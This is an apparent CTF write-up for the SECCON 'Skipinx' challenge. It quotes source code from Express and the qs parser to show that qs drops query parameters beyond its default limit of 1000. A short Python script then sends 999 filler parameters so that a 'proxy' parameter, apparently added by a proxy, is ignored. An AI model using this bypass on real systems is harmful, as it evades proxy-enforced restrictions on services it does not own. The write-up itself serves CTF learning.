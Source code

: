 # Skipinx Writeup

## Intro

Let's check express's req.query middleware source code:

```javascript
function query(options) {
  var opts = merge({}, options)
  var queryparse = qs.parse;

  if (typeof options === 'function') {
    queryparse = options;
    opts = undefined;
  }

  if (opts !== undefined && opts.allowPrototypes === undefined) {
    // back-compat for qs module
    opts.allowPrototypes = true;
  }

  return function query(req, res, next){
    if (!req.query) {
      var val = parseUrl(req).query;
      req.query = queryparse(val, opts);
    }

    next();
  };
};
```

We can see, that qs are used for get parameters parsing by default


In qs parser source code we can find folowing lines: 

```javascript
var defaults = {
    allowDots: false,
    allowPrototypes: false,
    allowSparse: false,
    arrayLimit: 20,
    charset: 'utf-8',
    charsetSentinel: false,
    comma: false,
    decoder: utils.decode,
    delimiter: '&',
    depth: 5,
    ignoreQueryPrefix: false,
    interpretNumericEntities: false,
    parameterLimit: 1000,
    parseArrays: true,
    plainObjects: false,
    strictNullHandling: false
};
```

This is default settings for parser and parameter limit set to 1000.

## Attacking

We can send more than 1000 parameter and proxy parameter will be ignored


```python
import requests as rq

params = {str(x): x for x in range(999)}
params['proxy'] = 'proxy'
r = rq.get('http://skipinx.seccon.games:8080', params=params)
print(r.text)
```

